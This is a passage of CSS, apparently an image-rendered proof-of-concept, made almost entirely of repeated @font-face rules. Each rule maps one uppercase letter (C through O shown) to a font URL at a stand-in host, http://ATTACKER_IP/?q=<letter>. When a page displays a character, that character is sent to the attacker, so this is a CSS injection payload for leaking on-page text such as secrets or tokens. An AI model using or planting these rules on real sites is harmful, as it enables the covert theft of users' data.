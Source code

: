     unicode-range: U+0043;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=D);
    unicode-range: U+0044;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=E);
    unicode-range: U+0045;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=F);
    unicode-range: U+0046;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=G);
    unicode-range: U+0047;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=H);
    unicode-range: U+0048;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=I);
    unicode-range: U+0049;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=J);
    unicode-range: U+004A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=K);
    unicode-range: U+004B;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=L);
    unicode-range: U+004C;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=M);
    unicode-range: U+004D;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=N);
    unicode-range: U+004E;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=O);
    unicode-range: U+004F;
}
@font-face {
    font-family: "poc";